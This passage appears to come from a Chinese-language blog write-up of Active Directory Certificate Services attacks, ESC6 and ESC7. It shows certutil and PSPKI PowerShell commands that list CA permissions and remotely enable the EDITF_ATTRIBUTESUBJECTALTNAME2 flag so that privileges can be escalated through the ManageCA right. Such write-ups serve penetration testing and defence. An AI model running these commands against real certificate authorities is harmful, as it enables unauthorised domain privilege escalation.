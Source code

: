 ![image-20240108161144609](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240108161144609.png)

通过certify也能达到同样的效果

![image-20240108161630768](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240108161630768.png)

开启此标志只需要指定/altname即可有和ESC一样的效果。

注：由于安全更新，要使用ESC6则需要满足ESC10的情况，后续会介绍

+ 删除该标志

  ```
  certutil -config "CA_HOST\CA_NAME" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
  ```

### ESC7(CA访问权限配置错误)

CA自身有一套访问操作权限，可以通过GUI来查看。

如图所示

![image-20240108162348796](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240108162348796.png)

主要关注颁发和管理证书(ManageCertificates)和管理CA(ManageCA)这两个权限，这两个权限分别对应证书管理员和CA管理员。

通过PSPKI模块可以枚举这些权限

```powershell
Import-Module -Name PSPKI
Get-CertificationAuthority -ComputerName ECHANGE2013.loser.com | Get-CertificationAuthorityAcl | select -expand Access
```

+ ManageCA

  这个权限主要的利用思路是添加EDITF_ATTRIBUTESUBJECTALTNAME2标志，并执行ESC2。通过PSPKI，我们能够远程开启该标志，具体命令如下

  ```powershell
  Import-Module PSPKI
  $ConfigReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "ECHANGE2013.loser.com"
  $ConfigReader.SetRootNode($true)
  $ConfigReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
  $ConfigReader.SetConfigEntry(1376590, "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
  
  certutil -config "ECHANGE2013.loser.com\loser-DC-CA" -getreg "policy\EditFlags"
  ```

  ![image-20240108215753702](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240108215753702.png)

  之后的流程就和ESC6相同了

+ ManageCertificates

  拥有该权限，能够对需要管理员审批的证书申请进行审批。
